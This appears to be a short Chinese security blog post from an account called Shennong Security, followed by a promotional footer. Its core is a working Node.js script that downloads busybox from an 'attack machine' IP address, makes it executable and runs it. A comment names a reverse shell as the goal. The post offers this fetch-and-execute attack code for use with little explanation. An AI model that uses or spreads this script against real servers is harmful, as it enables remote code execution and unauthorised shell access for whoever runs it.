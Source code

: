 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dfBiaE6sf0srwxicEwibmicFEa6bTgghqqGprxH09bEskUjpWrCTfl9G0shQ/640?wx_fmt=png&from=appmsg "")  
  
  
nodejs渲染通过js来模拟wget请求下载busybox并且赋权  
  
  
js文件  
  
```
const http = require('http');
const fs = require('fs');
const { exec } = require('child_process');

// 指定攻击机的 IP 地址和路径
const url = 'http://192.168.111.160/busybox';
const outputPath = '/tmp/busybox';  // 文件保存路径

http.get(url, (response) => {
    const fileStream = fs.createWriteStream(outputPath);
    response.pipe(fileStream);

    fileStream.on('finish', () => {
        console.log('下载成功！');

        // 设置执行权限，确保文件可执行
        fs.chmod(outputPath, 0o755, (err) => {
            if (err) {
                console.log('赋权失败:', err);
                return;
            }
            console.log('文件权限已更新，允许执行！');

            // 通过 busybox 执行反弹 shell 或其他操作
            exec(`/tmp/busybox`, (err, stdout, stderr) => {
                if (err) {
                    console.error('执行失败:', stderr);
                    return;
                }
                console.log('执行输出:', stdout);
            });
        });
    });
}).on('error', (err) => {
    console.log('下载失败:', err);
});
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWy211pOPXehgD2zYQXt8dftHEWQGTia215UF4oDPOSHnIdekAI4gicBxia0rA1Ihu2rbiaNZGBx21k7w/640?wx_fmt=png&from=appmsg "")  
  
  
  
**内部圈子详情介绍**  
  
  
  
我们是  
神农安全  
，点赞 + 在看  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  